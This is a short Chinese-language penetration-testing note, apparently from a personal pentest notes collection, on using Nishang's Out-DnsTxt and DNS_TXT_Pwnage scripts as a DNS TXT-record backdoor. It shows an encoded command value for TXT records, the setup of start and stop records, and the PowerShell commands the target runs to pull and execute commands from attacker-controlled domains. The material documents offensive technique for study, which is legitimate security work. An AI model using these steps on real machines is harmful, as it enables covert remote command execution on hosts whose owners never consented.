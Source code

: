 	https://github.com/samratashok/nishang/Utility/Out-DnsTxt.ps1
	https://github.com/samratashok/nishang/Backdoors/DNS_TXT_Pwnage.ps1
	新建一个psh文件，使用out-dnstxt转换，这里的命令是net user
![image](/assets/Pentest_Note/master/img/201.png)
![image](/assets/Pentest_Note/master/img/202.png)

	y0stUSgtTi3i5QIA
	添加一条域名txt记录，这里在本地设置，正常是在域名商的网站里配置
![image](/assets/Pentest_Note/master/img/203.png)

	还需创建两个txt记录，分别是指定开始和结束的字符串
![image](/assets/Pentest_Note/master/img/204.png)
![image](/assets/Pentest_Note/master/img/205.png)

	靶机执行
	>Import-Module .\DNS_TXT_Pwnage.ps1
	>DNS_TXT_Pwnage -startdomain start.zone.com -cmdstring cmd -commanddomain 1.zone.com -psstring start -psdomain zone.com -Subdomains 1 -StopString stop
![image](/assets/Pentest_Note/master/img/206.png)